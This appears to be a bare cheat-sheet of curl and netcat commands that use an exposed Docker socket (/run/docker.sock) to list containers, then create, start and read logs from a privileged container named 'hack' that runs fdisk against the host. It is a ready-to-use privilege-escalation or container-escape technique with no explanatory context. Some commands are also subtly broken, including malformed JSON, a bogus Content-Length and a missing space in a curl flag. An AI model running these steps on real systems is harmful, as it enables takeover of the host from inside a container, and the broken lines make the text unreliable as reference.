 # List
curl --silent -XGET --unix-socket /run/docker.sock -H 'Content-Type: application/json' http://localhost/containers/json | jq .

echo -e "GET /containers/json HTTP/1.0\r\n" | nc local:/run/docker.sock

# Create
curl --silent -XPOST --unix-socket /run/docker.sock -d '{"Image":"alpine:3.15.0", "HostConfig": {"Privileged": true}, "Cmd": [ "fdisk", "-l" ] }' -H 'Content-Type: application/json' http://localhost/containers/create?name=hack

echo -e "POST /containers/create?name=hack HTTP/1.0\r\nContent-Type: application/json\r\nContent-Length: 12345\r\n\r\n{\"Image\":\"alpine:3.15.0\",
\"HostConfig\":{\"Privileged\":true},\"Cmd\": [fdisk\",-l\" ]}" | nc local:/run/docker.sock
# Start
curl --silent -XPOST --unix-socket /run/docker.sock -H 'Content-Type: application/json' http://localhost/containers/hack/start?stdout=true

echo -e "POST /containers/hack/start?stdout=true HTTP/1.0\r\n\r\n" | nc local:/run/docker.sock

# Logs
curl --verbose--output - -XGET --unix-socket /run/docker.sock -H 'Content-Type: application/json' http://localhost/containers/hack/logs?stdout=true 

echo -e "GET /containers/hack/logs?stdout=true HTTP/1.0\r\n" | nc local:/run/docker.sock

